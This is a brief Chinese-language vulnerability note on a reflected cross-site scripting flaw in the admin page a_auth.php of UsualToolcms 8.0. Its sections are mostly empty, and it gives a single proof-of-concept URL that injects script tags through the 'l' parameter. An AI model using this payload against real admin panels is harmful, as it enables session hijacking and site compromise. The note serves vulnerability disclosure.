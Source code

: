 UsualToolcms 8.0 后台反射型XSS
==============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](./resource/UsualToolcms8.0后台反射型XSS/media/rId24.png)

### poc

    https://www.0-sec.org/cmsadmin/a_auth.php?do=update&l=%22%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

![2.png](./resource/UsualToolcms8.0后台反射型XSS/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
